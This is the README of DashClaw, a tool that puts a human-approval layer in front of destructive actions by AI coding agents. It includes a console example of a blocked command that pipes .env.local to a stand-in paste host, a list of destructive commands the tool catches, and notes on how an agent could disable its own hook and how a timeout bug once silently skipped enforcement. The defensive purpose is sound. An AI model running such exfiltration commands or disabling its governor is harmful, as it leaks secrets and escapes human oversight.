

<div align="center">
  

  <h1>DashClaw</h1>

  <p><strong>With a supported enforcement integration, when your AI coding agent tries something destructive, DashClaw catches it before it runs and asks you first, even when you are not at the keyboard.</strong></p>

  <p>Run agents unattended without giving them unconditional authority.</p>

  <p>
    <a href="https://github.com/ucsandman/DashClaw/actions/workflows/ci.yml"></a>
    <a href="https://www.npmjs.com/package/dashclaw"></a>
    <a href="https://pypi.org/project/dashclaw/"></a>
    <a href="https://github.com/ucsandman/DashClaw/blob/main/LICENSE"></a>
    
    
  </p>

  <p>
    <a href="https://dashclaw.io"></a>
    <a href="https://dashclaw.io/docs"></a>
    <a href="THESIS.md"></a>
    <a href="docs/maintainer-log.md"></a>
  </p>

  <sub>
    <a href="#what-you-get">What you get</a> &nbsp;·&nbsp;
    <a href="#what-it-actually-stops">What it stops</a> &nbsp;·&nbsp;
    <a href="#the-loop-in-code">The loop</a> &nbsp;·&nbsp;
    <a href="#what-dashclaw-is-not">What it is not</a> &nbsp;·&nbsp;
    <a href="#quick-start">Quick start</a> &nbsp;·&nbsp;
    <a href="#connect-an-agent">Connect an agent</a>
  </sub>
</div>

```bash
npx dashclaw up      # no account, first caught action in minutes
```

> **AI agents:** setting DashClaw up for your user? Run `npx dashclaw up --yes --no-browser` — the plain command prompts and will hang a non-interactive shell. The API key lands in `~/.dashclaw/instance.json`; verify with `GET http://localhost:3000/api/health` and `npx dashclaw doctor`. Full runbook: [dashclaw.io/llms.txt](https://www.dashclaw.io/llms.txt). Do not attempt the hosted trial headlessly — its captcha needs your human.

<div align="center">
  <br />
  
  <br />
  <sub>A hook-integrated agent tries a destructive tool call. DashClaw freezes it before it runs, routes it to the Approvals inbox, and writes a replayable decision record when you resolve it.</sub>
  <br />
  <sub>This illustration shows the approval workflow. <a href="https://www.dashclaw.io/demo">Explore the current interactive demo</a> for the supported product surfaces.</sub>
</div>

## What you get

A 10-second capability scan before the dense sections:

- **Fail-closed intercept at the execution seam.** The Claude Code, Codex, and Hermes hooks, the OpenClaw gateway, and `dashclaw_invoke` can cancel a blocked call before execution. Bare SDK, API, and ordinary MCP integrations are cooperative: the caller must honor the verdict.
- **One-click remote approval.** Resolve from the `/approvals` inbox, the CLI, a phone PWA, Telegram, or Discord. No presence required.
- **Approvals in plain English.** Every pending item leads with one sentence for what the command actually does, flags what cannot be undone, and warns when a file holds credentials. When no rule reads the command with confidence, it says so instead of guessing. The exact command is always shown underneath.
- **"Allow, don't ask again."** Preview the target, lease, and matching pending items before creating a scoped standing grant. The UI resolves eligible items through the normal approval path and reports partial failures. High-risk, ungrantable, expired, or self-approved sources are rejected. Standing grants remain visible and revocable in the inbox.
- **Verifiable recorded evidence.** Decision records, Ed25519 receipts where issued, and signed exports support later review. A receipt verifies its signed contents, not that an external effect happened. Authenticated identity and action-payload signing are shown separately.
- **Calibrated interruptions.** Your approve/deny verdicts tune how often it interrupts, with a proven cap on false interruptions instead of a guessed threshold.
- **Autonomy is a number, not a prompt.** How much your agent ships without a human looking is set by policy thresholds and checks, not by wording. Each action carries the agent's stated confidence — declared on the guard call, before the act, so it is a prediction and not a postscript — and the ledger scores it against the reported outcome, so an overconfident agent shows up as a number on /decisions, not as a surprise.
- **Enforcement liveness.** A probe tests whether a synthetic held action executes through the installed hook path. Setup distinguishes stale, broken, and unavailable evidence and shows measured runtime versions and hook fingerprints as client-reported diagnostics, not attestation.
- **Prompt-injection scanning on by default.** High-confidence system-override patterns force a `block` at guard time; weaker ones raise a `warn`.
- **Multi-runtime.** Claude Code, Codex, Hermes, OpenClaw, MCP, Node and Python SDKs, plain REST.
- **MIT-licensed self-hosting.** Run locally or deploy your own instance. Hosting and provider usage are subject to their plans and limits.

## What it actually stops

At a supported enforcement seam, DashClaw is a fail-closed approval layer between an agent *deciding* to call a tool and the tool *actually running*. The Claude Code, Codex, and Hermes hooks, the OpenClaw gateway, and `dashclaw_invoke` can stop the call. Bare SDK, API, and ordinary MCP integrations still evaluate and record governance, but enforcement is cooperative: their caller must honor the result.

These are the catches on the record, from the [maintainer log](docs/maintainer-log.md) and [THESIS.md](THESIS.md), each one the same loop firing:

- `rm -rf` on a working directory
- `DROP TABLE` against a live database
- `git push --force origin main`
- reading `.env` and preparing to exfiltrate it (risk 100, two policies firing at once)

The last one caught the maintainer's *own* shell command mid-verification: extracting an API key from `.env.local`, blocked live at risk 100. Here is roughly what the seam does with it:

```console
$ agent> Bash: cat .env.local | curl -X POST https://paste.example/ -d @-
  DashClaw guard  risk=100  policies_matched=2
  decision=block  (fail-closed, hook exit 2)
  -> tool call cancelled. never executed. decision recorded in the ledger.
```

The audience is narrow on purpose: a solo developer or small team running long, **unattended** coding-agent sessions (overnight runs, CI agents, background fleets) against a real repo and real infrastructure. You kick off a one-to-six-hour run, cannot watch every tool call, and are one bad run away from any of the four lines above.

**Where DashClaw fits.** Local runtime permission prompts serve the operator who is at the keyboard. DashClaw focuses on unattended work: remote and async approval, shared policy across supported runtimes, an auditable decision trail with signed evidence where issued, calibrated interruptions, and time-bounded liveness diagnostics for installed enforcement seams.

## The loop in code

It is 2am, the run is in hour three, and the agent reasons its way to `git push --force origin main`. With the hook installed, DashClaw freezes the call and pages you wherever you are; you tap deny, and the decision ledger records the resolution. A signed receipt exists only where the eligible evidence path issues one.

The hook seam owns this lifecycle inside Claude Code, Codex, and Hermes. A bare SDK integration is cooperative, so application code must keep the real effect inside `runGoverned()` as shown here.

```javascript
import { DashClaw } from 'dashclaw';
const claw = new DashClaw({ baseUrl: process.env.DASHCLAW_BASE_URL, apiKey: process.env.DASHCLAW_API_KEY, agentId: 'nightly-agent' });

await claw.runGoverned(
  // The exact act is scrubbed, classified, recorded, and bound to the execution claim.
  { kind: 'shell', command: 'git push --force origin main' },
  { action_type: 'shell', declared_goal: 'Force-push the rebased branch' },
  async () => run(),
);
```

`runGoverned()` waits for required approval, claims one execution attempt under a fresh policy check, invokes the callback, and reports the outcome. The claim binds the action, agent, credential principal, and exact act; any applicable operator or plan authority is consumed atomically with the claim. If claim or completion acknowledgement is lost, the helper does not repeat the callback. Reconcile the action and external system before retrying; ledger idempotency cannot make an external effect exactly once. Python uses `run_governed()`. Full example: [`QUICK-START.md`](QUICK-START.md).

**Upgrade order:** deploy the matching schema and server before upgrading governed SDK helpers, which require execution-claim protocol 1. Hooks and OpenClaw preserve legacy guard/approval behavior only when the server advertises no claim protocol; that mode lacks atomic execution claims. Malformed or unsupported advertisements fail closed. Set `DASHCLAW_REQUIRE_EXECUTION_CLAIMS=1` after the server upgrade to reject legacy responses. See the [execution contract](docs/architecture/durable-execution-finality.md).



The decision lattice is `allow < warn < allow_contained < require_approval < block`. Join is `max`; a `block` is absolute and cannot be downgraded in the ledger. `allow_contained` only ever reaches a caller that advertised the capability string for the staging medium it would use — `client_capabilities: ['allow_contained']` for a git worktree, `['allow_contained:db']` for an ephemeral database branch; an older client sees `require_approval` instead (version skew only tightens).

> [!IMPORTANT]
> **Enforcement is mechanically real only where DashClaw sits in the seam between decide and execute:** the Claude Code, Codex, and Hermes PreToolUse hooks (fail-closed, exit-2 on block), the OpenClaw gateway, and `dashclaw_invoke`. Everywhere else (bare SDK, API, and MCP callers, desktop chat) governance is **cooperative**: the caller consults guard and honors the decision; recording requires the caller to use a recording path. A block is never downgraded in the ledger. DashClaw does not claim universal hard enforcement. Even at the mechanical seam, the hook runs at the agent's own privilege level. An agent with write access to the hook path can disable its governor; DashClaw can govern and report that write, but the tamper-resistant boundary belongs to the deployment: a container, separate OS user, or read-only hook path. Per-surface table and full threat model: [`docs/architecture/enforcement-boundary.md`](docs/architecture/enforcement-boundary.md).

## What DashClaw is not

This section exists so you can rule the tool out fast if it is the wrong thing.

- **Not a general tracing product.** DashClaw focuses on policy decisions before execution. It can halt calls at the supported mechanical seams above; cooperative callers must honor the result. If you primarily need model traces and evaluation dashboards, this is not that.
- **Not a general agent platform.** DashClaw does not provide a broad calendar, CRM, messaging, or RAG tool suite. It retains one bounded, operator-configured capability seam: `dashclaw_invoke` can hold a registered credential and execute that registered external API after server-side governance. The v5.0.0 cull removed the wider platform tier, and a CI [surface-budget brake](THESIS.md#the-anti-regrowth-brake) prevents it growing back.
- **Not universal hard enforcement.** Enforcement is mechanical only at the seam (the hooks, the OpenClaw gateway, `dashclaw_invoke`); everywhere else it is cooperative. See the boundary note above.
- **Not tamper-proof against the agent it governs.** The hook runs at the agent's privilege level, inside the blast radius of the thing it governs. It stops the accident class and makes tampering visible and policy-blocked; it cannot stop a determined process executing at the same privilege. Real isolation is a deployment property — container, separate OS user, or read-only hook path — and DashClaw's docs say so instead of pretending otherwise.
- **Not battle-tested at scale.** First commit was February 2026. It is proven by continuous dogfood, not by a large install base. See [Project status](#project-status).

Full product definition and everything explicitly out of scope: [`THESIS.md`](THESIS.md).

## Maintained by an AI, under a human-held charter

Day-to-day, DashClaw is built and maintained by an AI agent, in public. That agent operates under a human-held charter, [`MAINTAINER.md`](MAINTAINER.md), which pins five invariants it **cannot** change:

1. **Blocks are absolute.** A `block` is never downgraded, in the ledger or anywhere else.
2. **No self-approval.** The maintainer cannot approve its own governed actions.
3. **Humans ratify every loosening.** Any policy relaxation routes through a human-ratified proposal.
4. **Credential-gated acts stay human-controlled.** Production data, publishing, billing, and infrastructure changes require the owner's authorization.
5. **The charter remains human-held.** Its constitutional rules change only at the owner's explicit direction. The operating protocol separately requires live proof for public claims.

Material maintainer changes and design decisions are recorded in the [maintainer log](docs/maintainer-log.md). Governing autonomous agents is the exact problem DashClaw exists to solve, so the project governs its own maintainer with its own runtime. That is the source of the sharpest design constraints below. The enforcement boundary, the blackout, and the liveness incident are included here so the claims remain auditable.

## Quick start

```bash
npx dashclaw up
```

One command provisions Postgres (Docker or embedded), generates secrets, mints your API key, applies migrations, starts on `:3000`, offers to wire Claude Code hooks, and opens your browser already signed in. No account required on the path to your first caught action.

<details>
<summary><strong>Deploy to the cloud, or try the hosted inbox first</strong></summary>

<br />

[](https://vercel.com/new/clone?repository-url=https%3A%2F%2Fgithub.com%2Fucsandman%2FDashClaw&env=DATABASE_URL,DASHCLAW_API_KEY,ENCRYPTION_KEY,NEXTAUTH_SECRET,NEXTAUTH_URL,CRON_SECRET,DASHCLAW_LOCAL_ADMIN_PASSWORD&envDescription=Required%20DashClaw%20configuration.%20See%20.env.example%20for%20details.&envLink=https%3A%2F%2Fgithub.com%2Fucsandman%2FDashClaw%2Fblob%2Fmain%2F.env.example&project-name=my-dashclaw&repository-name=my-dashclaw&products=%5B%7B%22type%22%3A%22integration%22%2C%22integrationSlug%22%3A%22neon%22%2C%22productSlug%22%3A%22neon%22%2C%22protocol%22%3A%22storage%22%7D%5D&skippable-integrations=1)

Click the button, add Neon when prompted, and fill in the variables from [`.env.example`](.env.example). Provider plans and limits determine hosting cost. The configured Vercel build runs schema migration before building the app; required-schema or migration-checksum failures stop it.

The hosted trial is the **secondary** door: to see the Approvals inbox before deploying anything, [hosted.dashclaw.io](https://hosted.dashclaw.io/connect) mints a capped trial workspace in the browser. Coming from the trial, click **Export workspace** on its `/connect` card and run `dashclaw import <bundle.json>` against your own instance. Policies, decisions, history, agents, and assumptions carry over; API keys and secret values never ride a bundle. Operator runbook: [`docs/hosted-deployment-runbook.md`](docs/hosted-deployment-runbook.md).

</details>

## Connect an agent

Every path lands on the same guard engine, the same decision ledger, and the same Approvals inbox. The enforcement column is honest about which paths halt mechanically and which are cooperative.

| Your agent runs on | Path | Enforcement | Guide |
|---|---|---|---|
| Claude Code | Plugin + PreToolUse hooks | Mechanical, fail-closed | [claude-code.md](docs/integrations/claude-code.md) |
| Codex | Plugin | Mechanical, fail-closed | [plugins/dashclaw](plugins/dashclaw/) |
| Hermes Agent | Plugin (lifecycle hooks) | Mechanical, fail-closed | [hooks/README.md](hooks/README.md) |
| OpenClaw | Gateway plugin | Mechanical | [packages/openclaw-plugin](packages/openclaw-plugin) |
| `dashclaw_invoke` (MCP) | Guarded invoke | Mechanical | [mcp.md](docs/integrations/mcp.md) |
| Claude Desktop (chat) | OAuth connector, no install | Cooperative | [CLAUDE-DESKTOP-PLUGIN.md](docs/CLAUDE-DESKTOP-PLUGIN.md) |
| Any stdio / HTTP MCP host | MCP server | Cooperative | [mcp.md](docs/integrations/mcp.md) |
| LangChain / CrewAI / AutoGen | Python SDK | Cooperative | [sdk-python/README.md](sdk-python/README.md) |
| Custom / framework-less | Node or Python SDK | Cooperative | [sdk/README.md](sdk/README.md) |
| Anything HTTP | REST API + webhooks | Cooperative | [OpenAPI](docs/openapi/critical-stable.openapi.json) |

End-to-end examples per runtime: [`examples/`](examples/).

<details>
<summary><strong>Commands for each path</strong></summary>

<br />

**Coding-agent plugins (Claude Code, Codex, Hermes).** One plugin source ([`plugins/dashclaw/`](plugins/dashclaw/)), three ecosystems. Each manifest ships the MCP config, the `dashclaw-governance` protocol skill, and a distinct `agent_id`.

```bash
npm i -g @dashclaw/cli
dashclaw install claude                          # wires ~/.claude/settings.json, fresh installs default to enforce
dashclaw install codex --project /path/to/repo   # wires manifest, hooks, AGENTS.md protocol
bash scripts/install-hermes-plugin.sh            # macOS / Linux (.ps1 on Windows)
```

This repo is also a native Claude Code plugin marketplace — no CLI needed:

```bash
/plugin marketplace add ucsandman/DashClaw       # inside Claude Code
/plugin install dashclaw@dashclaw                # MCP server + governance skill + hooks
```

Claude Code hooks govern Bash, Edit, Write, MultiEdit, sub-agent spawns, and every `mcp__*` call with a fail-closed PreToolUse check. Fresh installs start in enforce mode (the seeded catastrophe pack holds the irreversible class); pass `--observe` or set `DASHCLAW_HOOK_MODE=observe` to log without blocking, and re-installs keep whichever mode you chose. Observe mode is loud, never silent: `/approvals` and `/decisions` show a red banner while any agent reports it, unenforced verdicts render "Logged, not enforced" in the ledger, and a gated action that executes anyway gets an `executed_despite` witness stamp from PostToolUse — a logged block is never presented as an enforced one. **Narrowing the scope is loud too:** `DASHCLAW_GOVERNED_CATEGORIES` decides which tool categories call guard at all, and an excluded category exits before the network call, so its tool calls are simply *absent* from `/decisions` — which reads identically to "that agent did nothing." Since v5.20 the hook declares the categories it is not governing on the calls it does make, and any category dropped below the default raises a red **Governance scope narrowed** signal naming what stopped being watched. Verify the wiring fires:

```bash
echo '{"tool_name":"Bash","tool_input":{"command":"echo hello"},"tool_use_id":"t1","session_id":"smoke"}' | python .claude/hooks/dashclaw_pretool.py
```

**OpenClaw.** [`@dashclaw/openclaw-plugin`](packages/openclaw-plugin) intercepts calls delivered through the gateway's installed `before_tool_call` hook, so those calls need no agent-initiated DashClaw tool. The CLI installs it, patches config, and writes the governance protocol into the resolved workspace's `AGENTS.md`. Embedded native tools need their own runtime hooks.

```bash
dashclaw install openclaw
```

Run it bare in a terminal and it walks you through everything you're missing: no DashClaw instance yet? it offers the hosted trial or a local install (`dashclaw up`) inline; no API key? it collects one; then it suggests a per-machine agent id (`<hostname>-openclaw`). With `--base-url`, `--api-key`, and `--agent-id` (or the matching env vars) it runs non-interactively. Full guide: [dashclaw.io/guides/openclaw](https://www.dashclaw.io/guides/openclaw).

**MCP server (zero code).** [`@dashclaw/mcp-server`](mcp-server) exposes **17 governance MCP tools** across core governance, retrospection, identity, team tasks, and plans, plus 3 read-only resources (`dashclaw://policies`, `dashclaw://agent/{agent_id}/history`, `dashclaw://status`).

```json
{ "mcpServers": { "dashclaw": { "command": "npx", "args": ["@dashclaw/mcp-server"],
  "env": { "DASHCLAW_URL": "https://your-dashclaw.vercel.app", "DASHCLAW_API_KEY": "oc_live_xxx" } } } }
```

Every instance also serves Streamable HTTP MCP at `/api/mcp`. For Claude Desktop, add that URL as a custom connector (Settings, Connectors); OAuth auto-discovers, no key in the UI.

**SDKs.** `npm install dashclaw` (Node 18+) or `pip install dashclaw` (Python 3.7+). The **41-method canonical Node surface** covers guard, record, assumptions, approvals, durable-execution finality, security scanning, sessions and the action graph, pairing, risk signals, policy simulation, plan authorization, delegation constraints, containment verdicts, and team tasks. The **Python SDK exposes 61 methods**, plus CrewAI and AutoGen integrations. Plan authorization pins the approved plan's content hash at submission (`plan_hash`); `attestPlan(planId, planHash)` / `attest_plan(plan_id, plan_hash)` let an unattended runner confirm -- before its first model call -- that the plan it is about to act under is still approved, unexpired, and hash-matched, failing closed on drift (`not_approved | expired | revoked | hash_mismatch`) without ever echoing the stored hash back on a mismatch.

**REST.** Every primitive is HTTP. The stable contract is pinned in [`docs/openapi/critical-stable.openapi.json`](docs/openapi/critical-stable.openapi.json); the full inventory (**134 routes**: 42 stable, 18 beta, 74 experimental) is in [`docs/api-inventory.md`](docs/api-inventory.md). Webhooks: `decision.created`, `action.created`, `lost_confirmation`, configurable per org.

</details>

## The governance model

The protocol-1 diagram above shows the current execution path. Eight points define its scope:

1. **Every action inside a mechanical integration's configured governance scope is evaluated against active policies before that integration releases it.** Cooperative SDK, API, and ordinary MCP callers receive the same verdict but remain responsible for honoring it. Policies are declarative. The builder ships with ten pre-built safety switches (Deploy Gate, Risk Threshold, Rate Limiter, Evidence Required, Protected Path, Subagent Constraint, and others across 17 guard policy types), an AI generator, YAML import, and a pack gallery at `/policies/packs` — 18 curated packs (spend, outbound comms, unattended overnight runs, prod infra, subagent fleets, and more), each previewable against your own action history before a one-click install.
2. **The default pack is narrowly scoped.** New self-hosted organizations receive the catastrophe pack. Its named rules hold protected-target destruction, force pushes, secret-file writes, and classified real-money purchases. Risk score alone does not trigger every hold, and ordinary project cleanup is not universally blocked. Review the [actual rules](app/lib/guardrails/packs/catastrophe-only/policies.yml) and your active Short List; additional policies can impose stricter decisions.
3. **Sensitive actions require human approval, and the approval is one click.** Approvals route to `/approvals`, the CLI, the mobile PWA at `/approve`, Telegram, or Discord. When one policy blows its interruption budget, per-action pings collapse into one flood banner with bulk-resolve. A repeat interruption can be retired at the card with "Allow, don't ask again", which writes a target-scoped, expiring, revocable grant rather than silencing anything. Pending approvals are never auto-resolved.
4. **Decisions are recorded and outcome transitions are durable.** A five-state finality machine distinguishes confirmed outcomes from `lost_confirmation`. Protocol-1 execution claims give one caller authority for one attempt, but they cannot prove whether an external effect completed after a response was lost. Unknown completion requires reconciliation or effect-specific idempotency before retry. Spec below and in [`docs/architecture/durable-execution-finality.md`](docs/architecture/durable-execution-finality.md).
5. **Interruption precision is calibrated, not guessed.** A distribution-free controller ([`/policies#calibration`](docs/architecture/governance-core-theory.md), default preview) turns your approve/deny verdicts into a proven false-interruption bound. Shadow-first, then it loosens as well as tightens: below the calibrated threshold an approval request becomes a recorded warning instead, bounded by the riskiest action you have personally approved and retracted by a single deny. It never reaches `allow`, never touches a `block`, and never edits a policy — standing policy changes still route through human-ratified proposals.
6. **Liveness checks test the installed seam.** A synthetic action tests whether the configured hook holds execution. Setup shows the result, reporting time, host-runtime version, and selected hook fingerprint. Missing or malformed reports remain unavailable. These client-reported checks do not establish continuous enforcement or resist a compromised same-user host.
7. **Prompt-injection scanning is on by default.** High-confidence system-override patterns force a `block` at guard time; lower-severity patterns raise a `warn`.
8. **An outside decision engine can tighten decisions, never loosen them.** An org can configure one external decision provider on `/policies`; the guard calls it for applicable evaluations and joins its verdict stricter-wins — external `deny` is absolute for the evaluated act, external `allow` never overrides a stricter local result, and the verdict is bound to the exact input digest. An unreachable applicable provider takes an explicit posture (`fail_closed` default) and is recorded as `external unavailable`. A provider can be scoped to exact action types; out-of-scope acts stay local-only. Contract: [`docs/external-verdict-provider.md`](docs/external-verdict-provider.md).

<details>
<summary><strong>Why each of those is the way it is (the incidents behind the design)</strong></summary>

<br />

**The 18-day blackout (point 2).** The reference deployment ran with all policies off for 18 days in June 2026 because the default pack fired an approval roughly every ten seconds. That is why the default is catastrophe-only: a governor you disable is worse than none. Cited in [MAINTAINER.md](MAINTAINER.md) and [THESIS.md](THESIS.md).

**The governor caught asleep (point 6).** In v4.72.1 a hook timeout was set to `3600000` in a field Claude Code reads as *seconds*; the harness multiplied by 1000, `3.6e9` ms overflowed the 32-bit timer ceiling, the timer fired immediately, and the harness cancelled the hook and ran the tool anyway. Every block and every approval wait was silently skipped, including a `block` on `git push origin main`. The worst part: the orphaned hook process lived long enough to land its guard call, so the ledger kept filling with decisions that *looked* enforced. Maximum false confidence. That incident is the entire reason the liveness probe (v4.75.0) verdicts by execution and not by the ledger. Story: [`docs/maintainer-log.md`](docs/maintainer-log.md).

**The calibration bound (point 5).** The controller is the Gibbs-Candes online adaptive conformal recursion on a monotone decision loss, with a deterministic false-interruption bound: for any adjudication sequence (arbitrary drift, arbitrary dependence, adversarially chosen), the realized false-interruption rate is at most `α + (b − θ₁)/(γT)`. With shipped constants (`γ=2, θ₁=80, b=102`) the excess above target is `≤ 11/T`: within 0.1 of target after ~110 labeled adjudications, within 0.01 after ~1100. No distributional assumptions. Proof sketch: [`docs/architecture/governance-core-theory.md`](docs/architecture/governance-core-theory.md).

**Signed, verifiable receipts (point 4).** Each `non_fabrication` decision attempts to attach an Ed25519 proof receipt proving the verdict, the ruleset version (a content hash of the source of truth), and the issuer signature; signing is best-effort and never gates the verdict. The compliance export is a signed, hash-chained bundle. Anyone can re-verify at `POST /api/integrity/verify` with **no API key**. The signing key is the instance's own Ed25519 key, published via JWKS. Contract: [`docs/architecture/runtime-api.md`](docs/architecture/runtime-api.md).

**The anti-regrowth brake.** A 2026-03 SDK cull regrew to full sprawl in four months because the promised CI gate never shipped. This time `scripts/check-surface-budget.mjs` counts every governed surface and fails CI when any exceeds its v5.0.0 ceiling. Raising a ceiling requires amending [`THESIS.md`](THESIS.md#the-anti-regrowth-brake) and `contracts/surface-budget.json` in the same commit with a written reason.

</details>

Architecture map: [`PROJECT_DETAILS.md`](PROJECT_DETAILS.md). Runtime API contract: [`docs/architecture/runtime-api.md`](docs/architecture/runtime-api.md).

## Durable execution finality

Approved actions carry a terminal outcome separate from their lifecycle status. Five states, one-shot transitions, enforced at the repository layer.

| State | Meaning |
|---|---|
| `pending` | Approved, no outcome reported yet. |
| `completed` | Finished successfully. Set by the agent. |
| `partial` | Started but did not finish. Set by the agent with a progress payload. |
| `failed` | Attempted and errored. Set by the agent with an error message. |
| `lost_confirmation` | Timeout exceeded without a report. Set by the cron sweep. |

`POST /api/actions/[actionId]/outcome` is one-shot: the first call wins, every later POST returns 409. A cron sweep marks stale pending rows `lost_confirmation` and emits a `signal.detected` event. That state means completion is unknown, not that the effect did not happen. Reconcile the external system and action record, or use the target system's idempotency primitive, before retrying. Spec: [`docs/architecture/durable-execution-finality.md`](docs/architecture/durable-execution-finality.md).

## Approvals, from anywhere

`waitForApproval()` uses SSE for low latency and falls back to polling, reconciling the authoritative action state before it resolves.

| Surface | What it is | Setup |
|---|---|---|
| Dashboard (`/approvals`) | The primary inbox: what your agent tried, what waits on you, and per item — allow, deny, or stop being asked about that exact target — each led by a plain-English sentence for what the command does. | None |
| CLI (`@dashclaw/cli`) | Terminal inbox: `dashclaw approvals`, `dashclaw approve <id>`. | `npm i -g @dashclaw/cli` |
| Mobile PWA (`/approve`) | Phone-first allow/deny with risk score and policy. Add to home screen. | None |
| Telegram | Inline Approve/Reject in an admin chat. | `dashclaw install telegram` ([guide](docs/telegram-setup.md)) |
| Discord | Inline Approve/Deny on DM embeds. | [`.env.example`](.env.example) |

<div align="center">
  
  <br />
  <sub>The decisions ledger. Every governed action, its risk score, its verdict, and its outcome, replayable.</sub>
</div>

## Documentation

**[docs/README.md](docs/README.md) is the full index**, ordered by adoption journey (understand, try, connect, operate, reference). Highlights:

- [Concepts](docs/concepts.md): the mental model, risk scoring, what "block" means per surface.
- [Quick start](QUICK-START.md) · [Governing Claude Code](docs/integrations/claude-code.md) · [Governing agents over MCP](docs/integrations/mcp.md).
- [Operating DashClaw](docs/operations.md): policies, approvals, the ledger, the emergency halt, doctor.
- [Troubleshooting](docs/troubleshooting.md): the errors you will actually see, with fixes.
- [Node SDK](sdk/README.md) · [Python SDK](sdk-python/README.md) · [SDK parity matrix](docs/sdk-parity.md).
- [Agent identity](docs/agent-identity.md): JWKS verification, replay protection, action binding.
- [Runtime API](docs/architecture/runtime-api.md) · [Guard enforcement contract](docs/guard-enforcement-contract.md) · [Governance core theory](docs/architecture/governance-core-theory.md).
- [Durable execution finality](docs/architecture/durable-execution-finality.md) · [API inventory](docs/api-inventory.md) · [Security guide](docs/SECURITY.md) · [Changelog](CHANGELOG.md).

## Project status

Stated plainly, because a security tool that oversells itself is a liability:

- **Young and fast-moving.** First commit February 2026; releases land near-daily. The API surface is tiered for exactly this reason: 42 stable routes pinned in the [OpenAPI contract](docs/openapi/critical-stable.openapi.json), 18 beta, 74 experimental. Build against stable; experimental can change without notice.
- **Proven by dogfood, not by scale.** The core loop runs against the maintainer's own agent fleet, and CI exercises specified policy and lifecycle contracts. External production deployments are early. Treat this as young infrastructure, not a battle-tested incumbent or an uptime commitment.
- **AI-maintained, human-governed, in public.** Day-to-day maintenance is done by an AI agent under the human-held charter in [MAINTAINER.md](MAINTAINER.md), whose five invariants (above) the maintainer cannot change. Material changes and design decisions are recorded in the [maintainer log](docs/maintainer-log.md).

## Contributing and license

Issues and PRs are welcome on [github.com/ucsandman/DashClaw](https://github.com/ucsandman/DashClaw). If DashClaw caught something on one of your runs, a GitHub star is the honest signal that the wedge is real.

[MIT](LICENSE)

<div align="center">
  <br />
  <sub>Built by <a href="https://practicalsystems.io">Practical Systems</a></sub>
</div>

## Support

If my tools save you time, you can support my work here:

[](https://github.com/sponsors/ucsandman)
[](https://buymeacoffee.com/wes_sander)
